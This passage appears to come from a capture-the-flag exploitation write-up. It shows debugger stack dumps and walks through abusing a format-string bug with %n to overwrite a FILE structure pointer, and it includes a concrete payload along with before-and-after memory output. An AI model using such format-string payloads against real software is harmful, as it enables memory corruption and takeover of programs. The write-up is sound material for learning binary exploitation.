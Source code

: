 ```sh
0080| 0x7fffffffece0 --> 0x7fffffffed60 --> 0x555555555530 (push   r15)
0088| 0x7fffffffece8 --> 0x555555555500 (mov    rax,QWORD PTR [rbp-0x70])
0096| 0x7fffffffecf0 --> 0x555555758070 --> 0xfbad2c84
0104| 0x7fffffffecf8 --> 0x6 
0112| 0x7fffffffed00 --> 0x0 
0120| 0x7fffffffed08 --> 0x0 
0128| 0x7fffffffed10 --> 0x0 
0136| 0x7fffffffed18 --> 0x0 
0144| 0x7fffffffed20 --> 0x0 
0152| 0x7fffffffed28 --> 0x0 
0160| 0x7fffffffed30 --> 0x0 
0168| 0x7fffffffed38 --> 0x555555757d50 --> 0xffffffffbe991a83 
0176| 0x7fffffffed40 --> 0x555555757ee0 --> 0x3039 ('90')
0184| 0x7fffffffed48 --> 0x0 
0192| 0x7fffffffed50 --> 0x7fffffffee40 --> 0x1 
0208| 0x7fffffffed60 --> 0x555555555530 (push   r15)
0216| 0x7fffffffed68 --> 0x7ffff7a05b97 (<__libc_start_main+231>:	mov    edi,eax) -> The good old libc_start_main

```
We observe that the very first offset of stack at the instance of format string being triggered is **pointer to the file structure**.

So, we can directly use our old friend **%n** to completely fake the file structure.
{: .notice}

We can fake the file pointer to any of our allocated chunks.

It's time to craft our format string payload.

```py
payload = '%32896c' + '%4$hn'

```

We send the payload instead of name in the very beginning of our exploit.

And now , after triggering the format string , we overwrite the file structure with our fake structure.

```sh
0000| 0x7fffffffec90 --> 0x7fffffffecf0 --> 0x555555758200 --> 0xfbad2c84 -> Before triggering format string
0008| 0x7fffffffec98 --> 0x7fffffffed00 --> 0x555555758070 --> 0x1e0f3 
0016| 0x7fffffffeca0 --> 0xa55756080 
0024| 0x7fffffffeca8 --> 0x4d1 
0032| 0x7fffffffecb0 --> 0x0 

-------x-----------x---------x----------x----------x

0000| 0x7fffffffec90 --> 0x7fffffffecf0 --> 0x555555758080 --> 0x656863 ('che') -> We overwrote it yaaay!
0008| 0x7fffffffec98 --> 0x7fffffffed00 --> 0x555555758070 --> 0x1e0f3
0016| 0x7fffffffeca0 --> 0xa55756080
0024| 0x7fffffffeca8 --> 0x4d1

```
